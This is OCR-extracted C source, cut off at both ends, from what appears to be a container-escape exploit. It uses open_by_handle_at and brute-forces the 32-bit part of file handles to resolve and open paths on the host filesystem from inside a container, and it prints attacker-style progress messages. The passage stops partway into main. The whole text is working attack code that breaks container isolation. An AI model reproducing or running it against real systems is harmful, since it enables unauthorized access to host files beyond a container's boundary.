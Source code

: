 ```C
    .handle_bytes = 8,
    .handle_type = 1
    };
    DIR *dir = NULL;
    struct dirent *de = NULL;
    path = strchr(path, '/');
    // recursion stops if path has been resolved
    if (!path) {
        memcpy(oh->f_handle, ih->f_handle, sizeof(oh->f_handle));
        oh->handle_type = 1;
        oh->handle_bytes = 8;
        return 1;
    }

    ++path;
    fprintf(stderr, "[*] Resolving '%s'\n", path);
    if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
        die("[-] open_by_handle_at");
    if ((dir = fdopendir(fd)) == NULL)
        die("[-] fdopendir");
    for (;;) {
        de = readdir(dir);
        if (!de)
        break;
        fprintf(stderr, "[*] Found %s\n", de->d_name);
        if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
            fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
            ino = de->d_ino;
            break;
        }
    }

    fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
    if (de) {
        for (uint32_t i = 0; i < 0xffffffff; ++i) {
            outh.handle_bytes = 8;
            outh.handle_type = 1;
            memcpy(outh.f_handle, &ino, sizeof(ino));
            memcpy(outh.f_handle + 4, &i, sizeof(i));
            if ((i % (1<<20)) == 0)
                fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
            if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                closedir(dir);
                close(fd);
                dump_handle(&outh);
                return find_handle(bfd, path, &outh, oh);
            }
        }
    }
    closedir(dir);
    close(fd);
    return 0;
}


int main(int argc,char* argv[] )
{
    char buf[0x1000];
    int fd1, fd2;
    struct my_file_handle h;
    struct my_file_handle root_h = {
        .handle_bytes = 8,
        .handle_type = 1,
```